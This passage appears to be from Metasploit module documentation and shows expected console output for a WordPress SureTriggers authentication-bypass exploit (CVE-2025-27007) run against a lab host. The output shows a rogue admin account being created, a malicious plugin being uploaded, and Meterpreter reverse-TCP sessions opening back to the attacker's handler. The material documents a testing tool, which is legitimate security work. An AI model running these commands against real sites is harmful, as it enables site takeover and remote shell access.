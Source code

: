 ```plaintext
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Expected Results (CVE-2025-27007)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-27007
action => CVE-2025-27007
msf exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.82 vulnerable to CVE-2025-27007
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_kbl7m/ajax_awg0f.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_awg0f.php
[+] Deleted wp_kbl7m.php
[+] Deleted ../wp_kbl7m
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.27.0.3:52622) at 2025-05-21 19:31:04 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.82 vulnerable to CVE-2025-27007
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_uozfu/ajax_cqg9q.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_cqg9q.php
[+] Deleted wp_uozfu.php
[+] Deleted ../wp_uozfu
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 172.27.0.3:56038) at 2025-05-21 19:33:42 +0200

meterpreter > sysinfo
Computer     : 172.27.0.3
```